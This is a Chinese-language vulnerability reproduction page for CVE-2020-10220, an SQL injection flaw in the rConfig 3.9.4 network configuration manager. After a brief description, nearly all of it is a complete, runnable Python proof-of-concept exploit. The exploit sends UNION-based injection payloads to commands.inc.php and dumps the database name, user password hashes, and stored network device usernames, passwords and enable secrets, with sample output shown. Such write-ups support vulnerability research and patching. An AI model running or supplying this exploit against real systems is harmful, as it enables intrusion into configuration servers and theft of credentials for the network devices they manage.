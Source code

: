 （CVE-2020-10220）rConfig v3.9.4 sql注入漏洞
============================================

一、漏洞简介
------------

rConfig是一款开源的网络配置管理实用程序。 rConfig
3.9.4及之前版本中存在SQL注入漏洞。该漏洞源于基于数据库的应用缺少对外部输入SQL语句的验证。攻击者可利用该漏洞执行非法SQL命令。

二、漏洞影响
------------

rConfig v3.9.4

三、复现过程
------------

### poc

> CVE-2020-10220.py

    # Exploit Title: rConfig 3.9 - SQL injection
    # Date: 2020-03-03
    # CVE-2020-10220
    # Exploit Author: vikingfr
    # Exploit link : https://github.com/v1k1ngfr/exploits-rconfig/blob/master/rconfig_CVE-2020-10220.py
    # Vendor Homepage: https://rconfig.com/ (see also : https://github.com/rconfig/rconfig)
    # Software Link : https://www.rconfig.com/downloads/rconfig-3.9.4.zip
    # Install scripts  : 
    # https://www.rconfig.com/downloads/scripts/install_rConfig.sh
    # https://www.rconfig.com/downloads/scripts/centos7_install.sh
    # https://www.rconfig.com/downloads/scripts/centos6_install.sh
    # Version: tested v3.9.4
    # Tested on: Apache/2.4.6 (CentOS 7.7) OpenSSL/1.0.2k-fips PHP/7.2.24
    #
    # Notes : If you want to reproduce in your lab environment follow those links :
    # http://help.rconfig.com/gettingstarted/installation
    # then
    # http://help.rconfig.com/gettingstarted/postinstall
    #
    # $ python3 rconfig_sqli.py https://1.1.1.1
    # rconfig 3.9 - SQL Injection PoC
    # [+] Triggering the payloads on https://1.1.1.1/commands.inc.php
    # [+] Extracting the current DB name :
    # rconfig2
    # [+] Extracting 10 first users :
    # admin:1:63a9f0ea7bb98050796b649e85481845
    # Maybe no more information ?
    # Maybe no more information ?
    # [snip]
    # [+] Extracting 10 first devices :
    # 127-0-0-1:127.0.0.1::ocdvulnpass:
    # deviceTestName:1.1.1.1:myusertest:mysecret:myenablesecret
    # Maybe no more information ?
    # Maybe no more information ?
    # [snip]
    # Done
     

    #!/usr/bin/python3
    import requests
    import sys
    import urllib.parse
    from requests.packages.urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

    print ("rconfig 3.9 - SQL Injection PoC")
    if len(sys.argv) != 2:
        print ("[+] Usage : ./rconfig_exploit.py https://target")
        exit()

    vuln_page="/commands.inc.php"
    vuln_parameters="?searchOption=contains&searchField=vuln&search=search&searchColumn=command"
    given_target = sys.argv[1]
    target =  given_target
    target += vuln_page
    target += vuln_parameters

    request = requests.session()
    dashboard_request = request.get(target+vuln_page, allow_redirects=False, verify=False)


    def extractDBinfos(myTarget=None,myPayload=None):
        """
        Extract information from database
        Args:
            - target+payload (String)
        Returns:
            - payload result (String)
        """
        result = ""
        encoded_request = myTarget+myPayload
        exploit_req = request.get(encoded_request)
        if '[PWN]' in str(exploit_req.content):
            result = str(exploit_req.content).split('[PWN]')[1]
        else:
            result="Maybe no more information ?"
        
        return result


    if dashboard_request.status_code != 404:
        print ("[+] Triggering the payloads on "+given_target+vuln_page)
        # get the db name
        print ("[+] Extracting the current DB name :")
        db_payload = "%20UNION%20ALL%20SELECT%20(SELECT%20CONCAT(0x223E3C42523E5B50574E5D,database(),0x5B50574E5D3C42523E)%20limit%200,1),NULL--"
        db_name = extractDBinfos(target,db_payload)
        print (db_name)
        # DB extract users
        print ("[+] Extracting 10 first users :")
        for i in range (0, 10):
                user1_payload="%20UNION%20ALL%20SELECT%20(SELECT%20CONCAT(0x223E3C42523E5B50574E5D,username,0x3A,id,0x3A,password,0x5B50574E5D3C42523E)%20FROM%20"+db_name+".users+limit+"+str(i)+","+str(i+1)+"),NULL--"
                user_h = extractDBinfos(target,user1_payload)
                #print ("[+] Dump device "+str(i))
                print (user_h)
        # DB extract devices information
        print ("[+] Extracting 10 first devices :")
        for i in range (0, 10):
                device_payload="%20UNION%20ALL%20SELECT%20(SELECT%20CONCAT(0x223E3C42523E5B50574E5D,deviceName,0x3A,deviceIpAddr,0x3A,deviceUsername,0x3A,devicePassword,0x3A,deviceEnablePassword,0x5B50574E5D3C42523E)%20FROM%20"+db_name+".nodes+limit+"+str(i)+","+str(i+1)+"),NULL--"
                device_h = extractDBinfos(target,device_payload)
                #print ("[+] Dump device "+str(i))
                print (device_h)
        
        print ("Done")
                       
    else:
        print ("[-] Please verify the URI")
        exit()
